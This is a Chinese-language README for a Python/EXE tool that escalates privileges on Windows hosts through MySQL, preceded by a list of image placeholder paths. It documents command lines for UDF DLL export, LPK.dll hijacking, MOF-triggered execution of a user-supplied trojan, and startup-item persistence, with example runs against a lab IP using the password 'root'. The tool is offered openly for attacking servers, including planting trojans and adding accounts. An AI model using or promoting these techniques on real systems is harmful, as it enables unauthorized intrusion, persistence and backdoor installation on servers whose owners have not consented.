










# python-promoting-privileges

1.自动导出你的backdoor和mof文件，

2.自动判断mysql版本，根据版本不同导出UDF的DLL到不同目录，UDF提权

3.导出LPK.dll文件，劫持系统目录提权

4.写启动项提权 

工具仅做方便使用，技术含量几乎没有。

用py脚本写的，也打包成exe了，个人用的还算顺手。

用法：
```
promote:PythonDemo v5est0r$ python root.py
  __            _    __  __       ____   ___  _
 / _|_   _  ___| | _|  \/  |_   _/ ___| / _ \| |
| |_| | | |/ __| |/ / |\/| | | | \___ \| | | | |      Author：v5est0r
|  _| |_| | (__|   <| |  | | |_| |___) | |_| | |___
|_|  \__,_|\___|_|\_\_|  |_|\__, |____/ \__\_\_____|
                            |___/

usage: root.py [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD] [-e EXECUTE]
               [-m METHOD]

fuckmysql

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  MySQL server ip
  -o PORT, --port PORT  MySQL Port
  -u USER, --user USER  mysql UserName
  -p PASSWD, --passwd PASSWD
                        mysql password
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
  -m METHOD, --method METHOD
                        elevate method,eg:udf/mof/lpk/st
```


我在虚拟机演示打包好的exe远程提权，坛子的老哥们都是明白人，我就不多说了，直接上图：

默认UDF提权，也可以`-m udf`指定方式，`-e ipconfig`指定执行的cmd，默认执行whoami：
```
root.exe -a 192.168.1.105 -p root -e "ver&whoami" -m udf
```



有时候UDF无效，我们使用LPK.dll劫持：

```
root.exe -a 192.168.1.105 -p root -m lpk
```



验证一下lpk是否加上账户:



有时候UDF和LPK都无效，目标是windows2003，还有机会，可以MOF：

把你的木马的hex复制到同目录的hex.txt就行了，程序会导出木马到指定目录，并用mof执行。



每隔几秒就运行一次木马，有点尴尬，如何停止mof老司机都知道，我就不多说了。



有时候UDF和LPK都无效，那我们只能尝试被动写启动项：

```
root.exe -a 192.168.1.105 -p root -m st
```


可能存在路径编码问题写不成功，你可以根据提示，用本地的MySQL连接上去，执行。



当然还有情况是远程提权，UDF不能创建plugin目录，网上流传的ADS流创建目录我是没有成功过，工具里加了ADS流创建目录的代码，那么我们删掉plugin目录，再远程试试：



如上图，那就不行了，那么这种情况下，如果你有shell，在shell里的本地模式执行，就不一样了。

本地模式：
一般来说，php一般权限都是可以创建目录的，此处必须指定主机为`localhost或127.0.0.1`才会调用本地模式：
```
root.exe -a 192.168.1.105 -p root -e "ver&whoami" -m udf
```


